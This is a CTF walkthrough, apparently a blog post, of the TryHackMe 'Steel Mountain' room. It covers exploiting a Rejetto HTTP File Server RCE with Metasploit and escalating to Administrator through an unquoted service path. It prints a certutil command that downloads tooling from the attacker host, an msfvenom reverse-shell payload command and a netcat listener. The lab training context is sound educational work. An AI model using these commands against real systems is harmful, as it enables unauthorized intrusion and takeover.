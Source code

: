 ```yaml
---
title: "Exploit a Rejetto HTTP File Server in Steel Mountain CTF from TryHackMe"
datePublished: Fri Aug 04 2023 01:48:21 GMT+0000 (Coordinated Universal Time)
cuid: clkvxfn7l000409mgdiuw5j7o
slug: steel-mountain
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1691631388854/ef6dc52d-c862-4a1e-8a9e-ed0ee93fe8b3.png
tags: ctf, 2articles1week, cybersecurity-1, tryhackme, ctf-writeup

---
```


This walkthrough covers the [Steel Mountain](https://tryhackme.com/room/steelmountain) CTF found on [TryHackMe](https://tryhackme.com). This room is designed to evaluate our Windows OS enumeration skills. We will utilize Metasploit to gain an initial foothold, followed by PowerShell to enumerate the machine and escalate our privileges to Administrator.

### Step 1: Nmap

Note: ICMP is disabled, so we'll have to use the `-Pn` flag.

```bash
nmap -Pn -p- 10.10.0.5 -vvv
```

```plaintext
PORT      STATE SERVICE       REASON
80/tcp    open  http          syn-ack ttl 125
135/tcp   open  msrpc         syn-ack ttl 125
139/tcp   open  netbios-ssn   syn-ack ttl 125
445/tcp   open  microsoft-ds  syn-ack ttl 125
3389/tcp  open  ms-wbt-server syn-ack ttl 125
5985/tcp  open  wsman         syn-ack ttl 125
8080/tcp  open  http-proxy    syn-ack ttl 125
47001/tcp open  winrm         syn-ack ttl 125
49152/tcp open  unknown       syn-ack ttl 125
49153/tcp open  unknown       syn-ack ttl 125
49154/tcp open  unknown       syn-ack ttl 125
49155/tcp open  unknown       syn-ack ttl 125
49156/tcp open  unknown       syn-ack ttl 125
49169/tcp open  unknown       syn-ack ttl 125
49170/tcp open  unknown       syn-ack ttl 125
```

From this scan, we can tell that there are two web servers, one of which will be our attack vector to get an initial foothold. Visiting the site on port 80 reveals nothing more than a static page for an employee of the month. Looking at the source code helps us identify a name, *Bill Harper*.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113410117/78e26866-6de1-4595-be30-97a365a1f41d.png align="center")

Moving on over to port 8080 proves to be a little more useful. Right off the bat, we can tell this is a user panel to an HTTP File Server.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113421551/bc9e5d0c-c6e1-4afa-b566-06f0457b7432.png align="center")

Looking at the source code helps us narrow it down to a `Rejetto HTTP File Server`. This is great news because this version is vulnerable to an RCE and Metasploit has a module for it called `rejetto_hfs_exec`.

### Step 2: Metasploit

From here we want to search for the `rejetto` module and configure the options.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113447324/e218eed9-4f8a-4eba-9d05-7524c6b5065a.png align="center")

After properly configuring the module and typing `exploit`, we get a meterpreter session and pop a shell to grab our first flag located in `C:\Users\bill\Deskto`p. Use `type user.txt` to view it from the command line.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113460353/562ce6d7-e56d-4eac-a48b-91d53837ca0b.jpeg align="center")

### Step 3: Privilege Escalation

To enumerate this machine, we will use `winPEAS`. You can download the latest version [here](https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe).

Start a Python server:

```bash
python3 -m http.server 8000
```

Upload `winPEAS` to the victims `C:\Users\bill\Desktop` directory using `certutil.exe`.

```bash
certutil.exe -urlcache -f http://10.13.28.215:8000/winPEASany_ofs.exe winPEASany_ofs.exe
```

Run it by typing `winPEASany_ofs.exe` .

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113544053/f7884b90-58a2-4667-8890-5edb05a79ea5.png align="center")

An interesting service called `AdvancedSystemCareService9` is missing quotes and has a space in between the application name, which means we can escape it and run a program called "`Advanced.exe`" with a reverse shell.

Let's fire up `msfvenom` and generate a payload.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.13.28.215 LPORT=1337 -f exe -o Advanced.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113567782/e5c99dee-d106-4144-97c9-93556990079a.png align="center")

Startup a Python server and transfer the payload over using `certutil`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113578290/4def3399-0d65-4e33-b741-97c14bfa9e6a.png align="center")

Move it to "`C:\Program Files (x86)\IObit\"`, and be sure to put the file path in quotes due to the space.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113586235/85a1fdb6-3607-409b-a1ec-f298d39db15e.png align="center")

Now we want to stop the `AdvancedSystemCareService9` service.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113596097/f50abfb1-56d2-4a7e-9f8d-4c63d9d49cfa.png align="center")

Start a netcat listener to catch the reverse shell.

```bash
nc -lvnp 1337
```

Start the `AdvancedSystemCareService9` service back up.

### Step 4: Root

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113623575/0623872a-2d25-4ac6-9184-30c48c6e7d1a.png align="center")

Pwned! From here we can grab the last flag found in `C:\Users\Administrator\Desktop`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691113632364/117dcb66-121f-481e-88b2-32df16cf5710.jpeg align="center")

I hope you enjoyed this walkthrough of the [Steel Mountain](https://tryhackme.com/room/steelmountain) CTF found on [TryHackMe](https://tryhackme.com). Happy Hacking.